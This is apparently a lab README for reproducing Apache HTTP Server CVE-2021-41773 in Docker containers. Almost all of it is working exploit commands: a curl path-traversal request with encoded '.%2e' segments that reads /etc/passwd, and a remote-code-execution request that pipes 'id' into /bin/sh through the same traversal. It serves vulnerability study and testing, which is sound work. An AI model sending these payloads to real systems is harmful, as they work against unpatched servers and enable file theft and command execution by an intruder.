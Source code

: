 # Apache HTTP Server CVE-2021-41773

Use existing docker images & instructions from https://github.com/BlueTeamSteve/CVE-2021-41773.

## Path Traversal & File Read (with mod_cgi disabled)

```sh
docker pull blueteamsteve/cve-2021-41773:no-cgid
docker run -dit -p 8080:80 blueteamsteve/cve-2021-41773:no-cgid

curl http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
```

## RCE (with mod_cgi enabled)

```sh
docker pull blueteamsteve/cve-2021-41773:with-cgid
docker run -dit -p 8080:80 blueteamsteve/cve-2021-41773:with-cgid

curl 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'A=|echo;id'
```
